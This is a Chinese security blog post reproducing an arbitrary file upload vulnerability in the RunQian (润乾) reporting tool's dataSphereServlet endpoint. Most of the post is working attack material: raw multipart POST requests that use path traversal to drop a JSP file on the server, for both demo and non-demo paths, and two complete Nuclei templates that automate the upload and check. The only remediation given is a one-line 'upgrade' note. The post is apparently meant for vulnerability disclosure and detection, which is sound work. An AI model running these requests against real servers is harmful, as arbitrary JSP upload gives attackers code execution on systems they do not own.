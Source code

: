 #  【漏洞复现】润乾报表dataSphereServlet接口 任意文件上传漏洞   
紫色皓月  皓月的笔记本   2024-07-27 10:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。  
  
0X01   
简介  
  
润乾报表是一个纯JAVA的企业级报表工具，支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，支持各种常见的关系数据库和各类J2 EE的应用服务器，客户端采用标准纯html方式展现，支持ie和netscape， 润乾报表是领先的企业级报表分析软件。它提供了高效的报表设计方案、强大的报表展现能力、灵活的部署机制，支持强关联语义模型，并且具备强有力的填报功能和olap分析，为企业级数据分析与商业智能提供了高性能、高效率的报表系统解决方案。  
  
  
漏洞编号：  
  
无  
  
  
影响范围：  
  
无  
  
  
复现环境：  
  
润乾报表 20221210  
  
  
0X02   
漏洞复现  
  
注：新搭建系统存在demo路径，网上查询已搭建好的部分不存在demo路径，poc给出两个方案。  
  
存在demo路径POC：  
```
POST /demo/servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 392
Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="openGrpxFile"; filename="539634.jsp"
Content-Type: text/plain

<% out.println("123456"); %>
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="path"

../../../
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="saveServer"

1
--eac629ee4641cb0fe10596fba5e0c5d9--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPK1dO92R1xSDbj53SUx9VTqG6OGSmibSMYMOoibiaChgn7AL7DIUTPQuVvwS0EAkXUhsk4dOqmACUctg/640?wx_fmt=jpeg&from=appmsg "")  
```
http://192.168.31.133:6868/demo/539634.jsp
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPK1dO92R1xSDbj53SUx9VTq9mFaRicnQ7XwEzoGB7kqnlwDkTMTRNHQsSczAzlCEHGfNXlVV28GEGg/640?wx_fmt=jpeg&from=appmsg "")  
  
Nuclei：  
```
id: runqianbaobiaowenjianshangchuan-DEMO

info:
  name: 润乾报表dataSphereServlet接口存在任意文件上传漏洞
  author: 紫色皓月
  severity: high
  description: 润乾报表dataSphereServlet接口存在任意文件上传漏洞
  tags: 2024,润乾报表,任意文件上传,DEMO

variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}.txt"
  file_content: "{{to_lower(rand_text_numeric(32))}}"

requests:
  - raw:
    - |
      POST /demo/servlet/dataSphereServlet?action=38 HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
      Accept-Encoding: gzip, deflate
      Accept: */*
      Connection: close
      Content-Length: 395
      Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="openGrpxFile"; filename="{{file_name}}"
      Content-Type: text/plain

      {{file_content}}
      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="path"

      ../../../
      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="saveServer"

      1
      --eac629ee4641cb0fe10596fba5e0c5d9--

    - |
      GET /demo/{{file_name}} HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Connection: close
      Upgrade-Insecure-Requests: 1

    req-condition: true
    matchers:
      - type: word
        words:
          - "{{file_content}}"
        part: body
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPK1dO92R1xSDbj53SUx9VTqiavDYgyGk4eiagMSX5U3UmtlIdI3lb9YDMqsfWJah89LdqNK4sNJPMfA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
无demo路径：  
```
POST /servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 392
Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="openGrpxFile"; filename="539634.jsp"
Content-Type: text/plain

<% out.println("123456"); %>
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="path"

../../../
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="saveServer"

1
--eac629ee4641cb0fe10596fba5e0c5d9--

http://192.168.31.133:6868/539634.jsp

nuclei：
id: runqianbaobiaowenjianshangchuan

info:
  name: 润乾报表dataSphereServlet接口存在任意文件上传漏洞
  author: 紫色皓月
  severity: high
  description: 润乾报表dataSphereServlet接口存在任意文件上传漏洞
  tags: 2024,润乾报表,任意文件上传

variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}.txt"
  file_content: "{{to_lower(rand_text_numeric(32))}}"

requests:
  - raw:
    - |
      POST /servlet/dataSphereServlet?action=38 HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
      Accept-Encoding: gzip, deflate
      Accept: */*
      Connection: close
      Content-Length: 395
      Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="openGrpxFile"; filename="{{file_name}}"
      Content-Type: text/plain

      {{file_content}}
      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="path"

      ../../../
      --eac629ee4641cb0fe10596fba5e0c5d9
      Content-Disposition: form-data; name="saveServer"

      1
      --eac629ee4641cb0fe10596fba5e0c5d9--

    - |
      GET /{{file_name}} HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Connection: close
      Upgrade-Insecure-Requests: 1

    req-condition: true
    matchers:
      - type: word
        words:
          - "{{file_content}}"
        part: body
```  
  
  
  
0X03 修复建议  
  
升级至安全版本！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
